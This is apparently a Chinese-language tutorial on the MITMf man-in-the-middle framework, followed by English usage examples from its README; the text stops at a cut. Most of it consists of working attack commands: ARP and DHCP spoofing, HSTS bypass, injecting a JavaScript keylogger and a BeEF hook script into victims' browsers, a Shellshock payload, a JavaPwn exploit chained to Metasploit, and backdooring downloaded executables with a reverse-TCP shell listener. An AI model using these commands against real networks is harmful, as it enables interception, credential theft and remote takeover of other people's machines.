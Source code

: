 ## MITMF使用：

工具有几项基本功能：

```
sslstrip
　　部分绕过HSTS，这个不用多说。默认是开启的状态
Filepwn
　　主要作用是当被欺骗对象尝试下载文件时，首先对文件进行分析，对可执行文件（PE、ELF）进行后门注入，然后再给到被欺骗对象
Cachekill
　　清空客户端的缓存缓冲池，这个在我们需要重新注入一段js时是很有用的。这个功能还是非常有用的。
Spoof
　　欺骗模块。当我们使用MITM功能攻击欺骗时绝对是不能缺少的。其主要包括对ARP、ICMP、DHCP进行流量重定向（三种模式不能同时使用）
BeEFAutorun
　　该模块可以使框架可以连接到BeEF，将MITM与浏览器渗透结合起来
Replace
　　可以对浏览内容进行替换，支持正则表达式。注意，这里模块默认情况下是强制刷新缓存缓冲池的，要想不改变缓冲内容，需要手动指定keep-cache参数
Inject 
　　可以向被欺骗者的浏览内容中注入各种猥琐的东西，比如js，html，图片，电影。
Browser Profiler
　　枚举被欺骗机器的浏览器插件。对于前期的信息收集阶段还是很有用的。
JavaPwn 
　　可以通过向被攻击机器中注入jar使得浏览内容被毒化，和metasploit联合可以直接渗透机器拿到shell
Javascript Keylogger 
　　一个键盘记录js
App Cache Poison 
　　app缓存投毒。对于网页应用程序进行毒化处理，然后进行随心所欲的攻击。是Krzysztof Kotowicz的补充模块。
Upsidedownternet
　　恶搞模块，让浏览者的世界翻转。
RedirectsBrowserProfiler 
　　这个插件可以检测目标的浏览器类型，这将有助于识别漏洞
HTA Drive-By
　　注入一个假的更新通知，并提示客户下载一个HTA应用
AppCachePoison 
　　执行HTML5的App-缓存中毒攻击
BrowserSniper 
　　执行与外的最新浏览器插件在客户端上HTA Drive-by攻击
.......
```

 

**使用举例**

嗅探SSL传输的数据包
-a参数表示对http和https的数据包都嗅探

```
python mitmf.py -i eth0 --hsts --spoof --arp --gateway 10.0.0.1 --target 10.0.0.18
```

绕过HSTS站点抓取登陆明文可以参考：http://www.cnblogs.com/yaseng/p/hsts-bypass-with-mitmf.html

 

对图片进行替换

```
root@ET:/usr/local/bin/MITMf# 
python mitmf.py --spoof --arp -i eth0 --gateway 10.3.138.1 --target 10.3.138.5 --imgrand --img-dir /root/MITMf/Photo       
```



Screenshotter模块
对目标浏览器进行截屏

```
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.1.1 --target 192.168.1.100 --screen
```

恶搞功能: 它可以使目标浏览网页时，所有的图片都倒转 180度。

```
mitmf --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.100 --upsidedownternet
```

Inject模块的注入功能

```
注入html Iframe 框架 (指向网址:http://www.freebuf.com）：
mitmf -i eth0 --spoof --arp --gateway 192.168.1.2 --target 192.168.1.129 --inject --html-url http://www.freebuf.com

注入js：
mitmf -i eth0 --spoof --arp --gateway 192.168.1.2 --target 192.168.1.129 --inject --js-url http://linvex.xxx.cn/test.js

键盘记录js:
mitmf -i eth0 --spoof –-arp  –-gateway 192.168.1.1 –-target 192.168.1.114 --jskeylogger
```

关于js攻击*，*大家可以参考EtherDream同学的JS缓存投毒的文章

最后再看一下“破壳”是如何在DHCP中起作用的

```
mitmf.py -i eth0 --spoof --dhcp --shellshock
```

 

三. 高级玩法**(1)与Beef配合使用**
运行 beef 来调用 beef 的 hook 脚本： cd /usr/share/beef-xss && ./beef
我们可以在启动界面找到 hook 脚本的地址和 UI界面的地址
在浏览器打开UI界面后，下面我们就用 mitmf 进行中间人攻击。输入如下命令:

```
mitmf --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.114 --inject –js-url http://192.168.1.110:3000/hook.js
```

原理是： 利用ARP进行地址欺骗，让局域网中的其他电脑，误认为Kali为网关路由。
当目标机器打开；浏览器，就会被注入 hook 脚本。之后便可在beef上进行客户端的控制。
我们可以在另一台实验机器上进行查看，验证下Mac地址是否已经更改。
当目标打开浏览器进行访问时，我们可以在beef的UI客户端上看到目标的已经成功被 hook.
在那台实验机器上，利用审查元素功能进行源码查看。我们可以看到hook 脚本已经被注入

**(2)利用java漏洞进行攻击**
使用的是javapwn模块。
这个模块事实上就是根据客户端的java版本从msf挑出攻击payload进行溢出渗透攻击的过程，
只不过是将注入的过程加入到了ARP欺骗的过程而不是之前演示的那种直接给客户端一个url，使得攻击更为自然。
将metasploit打开，然后载入msgrpc模块： msf > load msgrpc Pass=abc123
其他部分保持默认就好了。然后是MITMf端，输入以下命令：

```
mitmf -i eth0 --spoof --gateway 192.168.217.2 --target 192.168.217.129 --javapwn --msfip 192.168.1.100
```

然后我们就只需要等待就可以了，这个过程我们可以看到靶机所浏览的一些网站记录同时我们也能接收到一些毒化html的反馈信息。
如果顺利，我们的jar就被执行了。

**(3)为PE文件注入后门实现渗透**
使用Filepwn模块，与msf结合同样可以获得shell。
Filepwn的原理：ARP过程中如果探测到靶机有下载的活动，便劫持下载链接，首先将文件下载下来进行解包分析，如果是可执行文件就尝试注入后门，如果失败则重新打包。最后将文件输出给靶机由靶机进行下载。这里的文档支持 zip和tar.gz格式解包，支持各种可执行文件。
同样我们打开metasploit，使用handler，开始监听：

```
msfconsole
use exploit/multi/handler
set LHOST 192.168.217.137
set LPORT 1447
run
```

在使用MITMf前我们需要对配置文件进行配置，注入信息配置如下（只列出作用位置）

```
…………SNIP…………
[[[WindowsIntelx86]]]        
PATCH_TYPE = APPEND #JUMP/SINGLE/APPEND        
HOST = 192.168.1.100        
PORT = 4444        
SHELL = reverse_shell_tcp        
SUPPLIED_SHELLCODE = None        
ZERO_CERT = False        
PATCH_DLL = True        
MSFPAYLOAD = windows/shell_reverse_tcp
…………SNIP…………
```

接下来是MITMf：

```
./mitmf.py --iface eth0 --spoof --gateway 192.168.1.1 --target 192.168.1.200 --filepwn
```

然后就是等待靶机下载文件然后执行就可以了。
最后我们的靶机执行了文件，然后msf获得到了shell。
***************************************************************************

https://github.com/byt3bl33d3r/MITMf
Examples

```
The most basic usage, starts the HTTP proxy SMB,DNS,HTTP servers and Net-Creds on interface enp3s0:
python mitmf.py -i enp3s0

ARP poison the whole subnet with the gateway at 192.168.1.1 using the Spoof plugin:

python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1

Same as above + a WPAD rogue proxy server using the Responder plugin:

python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --responder --wpad

ARP poison 192.168.1.16-45 and 192.168.0.1/24 with the gateway at 192.168.1.1:

python mitmf.py -i enp3s0 --spoof --arp --target 192.168.2.16-45,192.168.0.1/24 --gateway 192.168.1.1

Enable DNS spoofing while ARP poisoning (Domains to spoof are pulled from the config file):

python mitmf.py -i enp3s0 --spoof --dns --arp --target 192.168.1.0/24 --gateway 192.168.1.1

Enable LLMNR/NBTNS/MDNS spoofing:

python mitmf.py -i enp3s0 --responder --wredir --nbtns

Enable DHCP spoofing (the ip pool and subnet are pulled from the config file):

python mitmf.py -i enp3s0 --spoof --dhcp

Same as above with a ShellShock payload that will be executed if any client is vulnerable:

python mitmf.py -i enp3s0 --spoof --dhcp --shellshock 'echo 0wn3d'

Inject an HTML IFrame using the Inject plugin:
```